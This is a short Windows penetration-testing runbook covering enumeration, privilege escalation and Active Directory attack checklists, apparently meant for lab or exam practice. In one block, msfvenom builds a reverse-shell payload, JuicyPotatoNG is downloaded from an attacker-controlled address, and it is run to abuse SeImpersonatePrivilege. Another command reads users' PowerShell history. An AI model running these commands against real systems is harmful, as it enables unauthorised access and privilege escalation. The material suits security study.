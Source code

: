 # Windows Runbook


## Enumeration and Privilege Escalation

### Basic User Enum

```
whoami
whoami /priv
net user
net user /domain
systeminfo
ipconfig
```

if `SeImpersonatePrivilege`:


```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f exe -o payloads/shell.exe
iwr -uri http://192.168.45.215/JuicyPotatoNG.exe -outfile JuicyPotatoNG.exe
./JuicyPotatoNG.exe -t * -p "./shell.exe" 
```

### Enumerate the machine

Anything interesting in the root of C?
```
ls C:/
```

Anything interesting in the current users' home folder?

```
ls C:/Users/user/
ls C:/Users/user/Desktop
ls C:/Users/user/Documents
ls "C:/Program Files (x86)"
ls "C:/Program Files"
```

What's installed on the machine?

32-bit:
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
64-bit:

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Finally, to get running processes:

```
Get-Process
```

Check history of all users:

```
more C:\Users\user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Environment variables:
```
Get-ChildItem -Path Env:
```

### WinPeas checklist


* What servers are running on the machine. Can we gain access to an internal HTTP server or something like that?
* Is there a Task or Service running on the machine that we can abuse?
  * If a non-default service is present that looks promising, but you don't have write permissions to the .exe,
    check if it is missing a dll with procmon.
* Is the machine set up with `AlwaysInstallElevated` ?
* Anything that winpeas highlights as an escalation factor?
* Is there e.g. a web server running as root, or MySQL/MSSQL?

### AD Checklist - Run this if you have valid AD creds

* Any users kerberoastable?
* Any users ASREP-roastable?
* Run bloodhound and visualize the AD. Anything comes to mind?
* GMSAReadPassword?
* LAPS? https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps

